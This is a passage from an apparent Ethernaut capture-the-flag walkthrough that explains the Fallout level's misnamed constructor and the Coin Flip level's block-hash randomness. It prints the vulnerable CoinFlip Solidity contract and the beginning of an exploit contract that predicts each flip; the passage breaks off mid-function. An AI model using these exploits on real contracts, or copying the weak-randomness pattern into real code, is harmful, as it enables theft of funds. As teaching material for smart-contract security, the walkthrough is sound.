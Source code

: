 The contract is named *Fallout* but the function intended to be the constructor is mistakenly called *Fal1out* with a *1* in the name. Because they don't match, *Fal1out()* becomes a publicly callable function.

All we have to do is call *await Fal1out()* to execute the function and get the ETH.

### 3. Coin Flip

This challenge simulates a random coin flip, allowing you to guess the result of the flip. In order to succeed, you have to guess correctly 10 times in a row. This would be highly unlikely if the coin flip is fair.

Luckily for us, the coin flip is not as random as advertised. The *CoinFlip* contract uses the block number as a seed for randomness.

We can use [Remix](https://remix.ethereum.org/) to create a proxy contract. In the proxy contract, we can use the same formula to calculate the side that the coin will land on. Then we can submit our guess by calling the main contract. Deploy this in Remix and click *guessFlip* 10 times. Each time you should see *await contract.consecutiveWins()* increment by one in your console in Ethernaut.

```jsx
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol";

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract Solution {
    // this address is the address of your level instance contract
    address contractAddr = 0x62135780E2903fb91D554b399C02d8daFceAFa96;
		CoinFlip public originalContract = CoinFlip(contractAddr); 
	  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function guessFlip(bool _guess) public {
```